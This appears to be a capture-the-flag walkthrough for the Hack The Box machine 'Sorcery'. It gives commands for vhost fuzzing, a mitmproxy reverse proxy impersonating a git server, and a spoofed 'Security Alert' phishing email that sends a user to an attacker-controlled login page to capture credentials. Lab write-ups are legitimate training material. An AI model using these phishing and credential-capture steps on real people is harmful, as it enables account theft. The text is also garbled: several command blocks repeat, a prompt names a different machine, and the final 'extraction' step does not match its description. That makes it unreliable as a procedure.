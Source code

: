 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

<pre><code><span style="color:#ffffff">10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb</span></code></pre>

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>

Enumerate virtual hosts with `ffuf`:

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffff00">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffd700">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffff00">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>



This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>

Send a phishing email to capture credentials:

<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
<pre><code><span style="color:#00ffff">└──╼[👾]~/machine/guardian $</span> <span style="color:#ffff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>

Extract the captured credentials from the proxied session:

<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>

*Screenshots omitted.*
